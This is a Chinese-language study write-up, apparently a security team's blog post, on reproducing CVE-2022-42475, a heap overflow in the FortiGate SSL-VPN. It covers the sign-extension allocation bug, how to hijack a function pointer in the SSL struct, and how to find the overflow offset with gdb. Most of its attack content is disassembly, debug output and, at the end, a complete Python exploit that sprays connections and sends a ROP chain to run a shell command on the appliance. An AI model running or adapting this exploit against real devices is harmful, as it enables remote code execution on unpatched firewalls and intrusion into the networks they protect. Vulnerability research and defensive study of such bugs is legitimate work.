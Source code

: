 #  CVE-2022-42475-FortiGate-SSLVPN HeapOverflow 学习记录   
原创 狒猩橙  ChaMd5安全团队   2023-08-19 09:25  
  
> 招新小广告CTF组诚招re、crypto、pwn、misc、合约方向的师傅,长期招新IOT+Car+工控+样本分析多个组招人有意向的师傅请联系邮箱  
  
admin@chamd5.org(带上简历和想加入的小组)  
  
  
### 前言  
  
之前就想复现这个洞，不过因为环境的问题迟迟没有开工。巧在前一阵子有个师傅来找我讨论劫持 **ssl结构体**中函数指针时如何确定堆溢出的偏移，同时还他把搭建好了的环境发给了我，因此才有了此文。  
### 如何劫持SSL结构体指针实现控制程序流  
  
就我个人理解而言，我觉得劫持的这个函数指针类似于我们常见的 **__malloc_hook，__free_hook**。它本身的值为空，当他不为空时，便会调用这个函数指针。如果我们把这个函数指针劫持为合适的 **gadget**便可以控制程序的执行流。相关代码如下：  
```
__int64 __fastcall debug_2nd_control(__int64 a1, char a2){
  ...
      if ( v9 )
      {
        result = v8 + 96;
        if ( v9 != v8 + 96 )
        {
          v10 = *(__int64 (__fastcall **)(__int64))(v9 + 192);
          if ( v10 )
            return v10(a1);
          ...
}

.text:000000000180C180 48 8B 82 C0 00 00 00                    mov     rax, [rdx+0C0h]
.text:000000000180C187 4C 89 EF                                mov     rdi, r13
.text:000000000180C18A 48 85 C0                                test    rax, rax
.text:000000000180C18D 0F 84 85 00 00 00                       jz      loc_180C218
.text:000000000180C193 5B                                      pop     rbx
.text:000000000180C194 41 5C                                   pop     r12
.text:000000000180C196 41 5D                                   pop     r13
.text:000000000180C198 41 5E                                   pop     r14
.text:000000000180C19A 5D                                      pop     rbp
.text:000000000180C19B FF E0                                   jmp     rax

```  
### 漏洞点  
  
从下面的汇编中可知，这里分配的大小是由 **movsxd rsi, esi**，直接从4字节扩展为了8字节，如果我们把大小控制为**0x1b00000000**，这样就会导致分配并初始化内存的大小为 **1**，从而产生堆溢出。利用手法是，在堆上大量喷射 **SSL**结构体，从而劫持其中对应的函数指针。  
```
0000000001811174 8B 40 18        mov     eax, [rax+18h]  ; Keypatch modified this from:
0000000001811174                 ;   nop word ptr [rax+rax+00000000h]
0000000001811174                 ; Keypatch padded NOP to next boundary: 8 bytes
0000000001811177 49 8B 3C 24     mov     rdi, [r12]      ; Keypatch modified this from:
000000000181117B E9 86 02 00 00  jmp     loc_1811406

0000000001811406 8D 70 01        lea     esi, [rax+1]    ; Keypatch modified this from:
0000000001811409 E9 96 01 00 00  jmp     loc_18115A4

00000000018115A4 48 63 F6        movsxd  rsi, esi        ; Keypatch modified this from:
00000000018115A7 E9 88 FB FF FF  jmp     loc_1811134

0000000001811134 E8 27 0A EC FF  call    alloc__

```  
### 如何确定填充数量  
  
网上已经有文章(https://forum.butian.net/index.php/share/2166)给出了一个可劫持到函数指针的poc。我们这里就直接用了他这种布局，重点记录一下如何找到这个填充的数量。对于这个固件而言，**ssl**结构体初始化时，我们可以看到如下的代码。很明显可以看到，他会把字符串 **read_post_data**拷贝到距离结构体偏移为 **200**的地方。而根据上面的代码可知，我们要劫持的函数指针在结构体偏移为 **192**的地方。故我们只需定位到 **read_post_data**，即可确定偏移。  
```
sub_181BC20(a2, "read_post_data", 0, 1, (__int64)sslvpnd_read_post_data);

char *__fastcall sub_181BC20(__int64 *a1, const char *str, int a3, int a4, __int64 a5){
  ...
  strLen = strlen(str);
  v8 = alloc__(*a1, strLen + 201);
  v9 = (__int64)v8;
  if ( v8 )
  {
    *(_QWORD *)v8 = v8;
    *((_QWORD *)v8 + 1) = v8;
    v10 = &v8[32 * a3];
    *((_DWORD *)v10 + 6) = a4;
    *((_DWORD *)v10 + 7) = a4;
    if ( (a4 & 1) != 0 )
    {
      *(_QWORD *)(32LL * a3 + v9 + 32) = a5;
    }
    else if ( (a4 & 4) != 0 )
    {
      *(_QWORD *)(32LL * a3 + v9 + 40) = a5;
    }
    strcpy((char *)(v9 + 200), str);
    ...
}

```  
  
调试时内存分布如下，有 **0x2638-0x1818 = 0xE20 = 3616**  
```
(gdb) i r $rdi
rdi            0x7f6edef01818   140114163406872
(gdb) x/10gx 0x7f6edef01818
0x7f6edef01818: 0x0000000000000000      0x0000000000000000
0x7f6edef01828: 0x0000000000000000      0x0000000000000000
0x7f6edef01838: 0x0000000000000000      0x0000000000000000
0x7f6edef01848: 0x0000000000000000      0x0000000000000000
0x7f6edef01858: 0x0000000000000000      0x0000000000000000
(gdb) x/10gx 0x7f6edef02638
0x7f6edef02638: 0x0000000000000000      0x736f705f64616572
0x7f6edef02648: 0x0000617461645f74      0x0000000000000000
0x7f6edef02658: 0x0000000000000000      0x0000000000000000
0x7f6edef02668: 0x0000000000000000      0x0000000000000000
0x7f6edef02678: 0x0000000000000000      0x0000000000000000
(gdb) x/s 0x7f6edef02640
0x7f6edef02640: "read_post_data"

```  
### poc  
```
import struct
import socket
import ssl

p64 = lambda x: struct.pack("<Q", x)

path = "/remote/login".encode()

ip = "192.168.229.162"
port = 4443

def create_ssl_ctx():
    _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    _socket.connect((ip, port))
    _default_context = ssl._create_unverified_context()
    _socket = _default_context.wrap_socket(_socket)
    return _socket

socks = []

for i in range(60):
    sk = create_ssl_ctx()
    data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.229.146\r\nContent-Length: 100\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\na=1"
    sk.sendall(data)
    socks.append(sk)

for i in range(20, 40, 2):
    sk = socks[i]
    sk.close()
    socks[i] = None

CL = "115964116992"
data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.229.146\r\nContent-Length: " + CL.encode() + b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\nf=1"

exp_sk = create_ssl_ctx()

for i in range(20):
    sk = create_ssl_ctx()
    socks.append(sk)

exp_sk.sendall(data)

payload = b"b" * (3613-0xc0)
payload+= p64(0)
payload+= p64(0x19de70a)
# 0x00000000019de70a : pop r12 ; pop r13 ; pop rbp ; ret
payload+= p64(0x100)*3
payload+= p64(0x1855c29)
# 0x0000000001855c29 : add rdx, r8 ; mov byte ptr [rdx], 0 ; ret
payload+= p64(0x1fe54ad)
# 0x0000000001fe54ad : pop rbp ; mov rax, rdx ; ret
payload+= p64(0x30)
payload+= p64(0x18cfb70)
# 0x00000000018cfb70 : lea rdi, [rax - 0x28] ; call qword ptr [rax + 0x30]
payload+= p64(0x40)*(24-9)

payload+= p64(0x1d3379c) # rip
# push rdx ; adc byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
payload+= p64(0x736f705f64616572)
payload+= p64(0x0000617461645f74)
cmd = b"busybox ls > /tmp/hack"
cmd = cmd.ljust(11*0x8, b'\x00')
payload+= cmd
payload+= p64(0x43FDF0)

exp_sk.sendall(payload)

for sk in socks:
    if sk:
        data = b"b" * 40
        sk.sendall(data)

print("done")

```  
### 参考链接  
  
https://forum.butian.net/index.php/share/2166  
  
https://bestwing.me/CVE-2022-42475-FortiGate-SSLVPN-HeapOverflow.html  
  
https://wzt.ac.cn/2022/12/15/CVE-2022-42475/  
  
https://devco.re/blog/2019/08/09/attacking-ssl-vpn-part-2-breaking-the-Fortigate-ssl-vpn/  
  
- END -  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBR8nk7RR7HefBINILy4PClwoEMzGCJovye9KIsEjCKwxlqcSFsGJSv3OtYIjmKpXzVyfzlqSicWwxQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
